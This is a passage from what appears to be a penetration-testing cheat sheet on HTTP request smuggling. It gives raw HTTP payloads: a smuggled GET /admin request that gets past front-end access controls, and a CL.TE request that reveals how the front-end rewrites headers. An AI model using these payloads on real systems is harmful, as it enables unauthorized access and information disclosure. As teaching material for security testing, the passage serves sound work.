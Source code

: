 When you go to `/home`, the following request will be made&#x20;

```http
GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

* The front-end server sees two requests here, both for `/home`, and so the requests are forwarded to the back-end server.&#x20;
* The back-end server sees requests for `/home` and `/admin`, assumes they've passed front-end controls, and grants access to the restricted URL.

### <mark style="color:purple;">Revealing front-end request rewriting</mark> <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

<mark style="color:purple;">**CL.TE**</mark>

Find a request that reflects the value

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=user@normal-user.net
```

```html
<input id="email" value="user@normal-user.net" type="text">
```

Use the following request smuggling attack to reveal the rewriting

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

